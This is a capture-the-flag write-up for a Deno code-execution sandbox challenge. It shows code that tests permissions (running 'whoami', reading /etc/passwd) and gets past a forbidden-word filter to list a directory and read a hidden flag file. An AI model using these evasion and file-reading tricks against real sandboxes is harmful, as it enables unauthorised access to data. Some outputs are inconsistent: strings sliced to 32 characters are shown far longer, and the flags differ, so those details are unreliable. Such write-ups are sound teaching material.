

## Introduction



**DinooBox** is a sandbox as a service, it executes code and returns the result. 
based on the name, and image, we can assume that the runtime is Deno. 
Nothing much to say about the frontend, we check the source code for the backend.

## Analysis

In the backend, we can see a couple of functions, `spotForbiddenWords` and `spotLargePayload` that are used to check the payload before executing it. `spotForbiddenWords` checks for some forbidden words, and `spotLargePayload` checks for the size of the payload. 
the check is done before executing the code and then on the output of the eval function. the maximum length of the allowed code is 190 characters, and the maximum size of the output is 32 characters.
Some forbidden words are related to http requests and terminal commands like `ls` and
`cat`, and some are related to the file system like `readFile`. In addition to `[` , `]` , `\` and the words `flag` and `index` and obiously `eval`.
We can also see that the code is executed in a try block, and if an error occurs, the error is returned to the client. and some of the errors are **Permission** related errors.

If this is the first time you see Deno, (you can read more about it [here](https://deno.land/)), Deno has a system that checks for specific permissions before executing the code, and if the code tries to access a resource that it doesn't have permission to, it will throw an error, which makes it much safer than Node.js.
Before we start, we need to know which permissions are allowed, and which are not. The
ones that we would hope for are `Subprocess` and `Read`.

To check if Subprocess is allowed, we can use `Deno.run`.

```ts
function run() {
    // we use .split() to create an array since [] is forbidden
    Deno.run({ cmd: "whoami".split() })
    return ""
}

run()

// Deno.run is not a function
```

So, Subprocess is not allowed. To check if Read is allowed, we can use `Deno.cwd` to get the current working directory, which requires the permission to read the current folder.

```ts
function run() {
    Deno.cwd()
    return ""
}

run()

// No Output
```

So, Read is allowed in the current directory. Just to check if we can read files in other directories, we can use `Deno.readTextFile` (since it is the only one that were not included in the forbidden list) to read the `/etc/passwd` file.
- we use `String.fromCharCode(47)` to get the `/` character since it is forbidden
- since `etc` is forbidden, and it is a simple string, we can split it into two
strings and concatenate them like this: `'et' + 'c'`

```ts
async function run() {
    const sl = String.fromCharCode(47)
    await Deno.readTextFile(sl + 'et' + 'c' + sl + 'passwd')
    return ""
}

run()

// You have no rights to do that
```

So, the Read permission is only limited in the current directory, Which we don't really need anyways.

## Exploitation

Since we can't execute subprocesses, we will rely on the native API to read and list the
folder content, we start by checking the current directory content with `Deno.readDir`, after checking the way to do it online, we can create a string that contains the file names and return it, to avoid working with arrays...

```ts
async function run() {
    let c = ""
    for await (let i of Deno.readDir(".")) {
    c += i.name + "#"
    }
    return c
}

run()

// Your Output contains forbidden word
```

Which means that resulting string contains a forbidden word, which is probably `flag`, or `index`. A way to leak the data is to use a simple encryption method like Caesar Cipher, or just inseting a space between each character would do it.

```ts
async function run() {
    let c = ""
    for await (let i of Deno.readDir(".")) {
        c += i.name + "#"
    }
    return c.split('').join(' ')
}

run()

// Too much content to return
```

Which means that the resulting string is too long, so we need to split it into multiple strings,  we use `.slice(0, 32)` to get the first 32 characters.
    
```ts
async function run() {
    let c = ""
    for await (let i of Deno.readDir(".")) {
        c += i.name + "#"
    }
    return c.split('').join(' ').slice(0, 32)
}

run()
    
// . 4 e v e r y o u r s # . e n v # . g i t i g n o r e # . h t a c c e s s # d e n o . j s o n # i n d e x . t s #
```

We can observe the current directory content which is:
- .4everyours
- .env
- .gitignore
- .htaccess
- deno.json
- index.ts

Now using the same techniques, we try to read the content of the files, using `Deno.readTextFile` , and we get the following output:

```ts
async function run() {
    let c = await Deno.readTextFile('.4ev' + 'eryours')
    return c.split('').join(' ').slice(0, 32)
}

run()

// I a m n o t
```

Clearly, this is not the flag, so we need to read the other files.
Checking `.env` and `.htaccess` files, we can see that they are just some rabbit holes, and some long content in deno.json and index.ts which we don't need.

The only file left is .gitignore , which raises an error `Is a directory (os error 21)`.
which indicates that it is a directory, so we can use `Deno.readDir` to read its content.

```ts
async function run() {
    let c = ""
    for await (let i of Deno.readDir(".gitignore")) {
        c += i.name + "#"
    }
    return c.split('').join(' ')
}

run()

// f l a g . t x t #
```

Now we can read the flag.

```ts
async function run() {
    const sl = String.fromCharCode(47)
    let c = await Deno.readTextFile('.gitignore' + sl + 'fla' + 'g.txt')
    return c.split('').join(' ').slice(0, 32)
}

run()

// E N I T { _ m Y _ s | f _ _ e s t 3 4 m _ H a S _ B _ l 0 s t }
```

## Conclusion
This challenge was a good introduction to Deno, I hope you enjoyed it.
NodeJs is not the only one to write Javascript you know, there's Deno and Bun and they are both pretty cool.

## Flag

> ENIT{_mY_s|f__es_t34m_HaS_B_l0st}